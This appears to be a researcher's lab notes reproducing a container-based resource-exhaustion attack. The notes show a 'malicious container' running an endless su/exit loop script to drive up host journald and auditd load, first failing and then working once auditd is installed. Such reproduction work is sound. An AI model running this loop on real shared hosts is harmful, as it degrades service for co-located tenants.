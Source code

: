 **attack**

malicious container

```shell
$ docker run --cpuset-cpus="5" -v /home/zty/dev/cfile:/cfile -it --rm ubuntu
root@8ebbb7f63f8e:/# useradd james
root@8ebbb7f63f8e:/# cat /cfile/su-user.sh 
#!/bin/bash
while true
do
  exit | su james
done
root@8ebbb7f63f8e:/# /cfile/su-user.sh
```

victim container - as benchmark like above

-------------- this is out of date

**su operation in container cannot trigger journald in the Host**

文中提及的操作并不能调用 Host 的 jounald 操作，因此不能 exploit

下文是在 malicious container 循环 su/exit 操作时，在 host 上查看的 journald cpu 使用情况

```shell
$ ps -ax | grep jour
  396 ?        S<s    0:16 /lib/systemd/systemd-journald
$ top -p 396
top - 14:04:44 up 22:26,  1 user,  load average: 1.85, 2.23, 1.94
Tasks:   1 total,   0 running,   1 sleeping,   0 stopped,   0 zombie
%Cpu(s):  3.4 us,  5.1 sy,  0.0 ni, 89.8 id,  0.0 wa,  0.0 hi,  1.6 si,  0.0 st
KiB Mem : 16212392 total,  9236540 free,  3412200 used,  3563652 buff/cache
KiB Swap:  2097148 total,  1858556 free,   238592 used. 12361432 avail Mem 

  PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND                  
  396 root      19  -1  175656  78124  70184 S   0.0  0.5   0:16.16 systemd-journal  
```

---------------- 2019.11.12

After receiving the email of the author, I realize that I don't have installed an important application called `auditd`.

```shell
$ sudo apt install auditd
```

Do above command to install  `auditd`, then you will observe the utilization increase of `journald`, `auditd` and `kaouditd` after keeping changing user inside the container.

**result**

```shell
$ sudo iotop -oP
```

This command can observe the processes which are doing I/O operations. More info please consider `man iotop`.
